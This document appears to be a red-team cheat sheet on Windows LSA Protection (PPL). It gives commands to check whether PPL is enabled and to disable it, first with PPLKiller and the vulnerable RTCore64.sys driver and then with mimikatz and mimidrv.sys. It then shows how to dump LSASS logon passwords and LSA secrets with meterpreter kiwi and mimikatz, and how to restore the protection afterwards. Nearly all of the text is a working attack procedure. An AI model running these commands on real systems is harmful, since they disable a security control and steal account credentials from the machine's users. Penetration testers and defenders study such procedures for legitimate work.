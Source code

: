 ### <ins>Check if PPL is enabled</ins>
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

### <ins>Disable PPL using PPLKiller</ins>

Make sure the session you are running with has SYSTEM privleges.
- Place the driver RTCore64.sys at: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.

Now, we will need to install the driver:
- `.\PPLKiller /installDriver`

Then we will disable LSA Protection: 
- `.\PPLKiller.exe /disableLSAProtection`

Now we can use meterpreter mimikatz module to dump the lsass process: 
- `load kiwi` - `creds_all` - `lsa_dump_secrets`

### <ins>Disable PPL using mimikatz</ins>
Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.

Dump logonpasswords: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Dump secrets: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`

Restore: 
- `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`

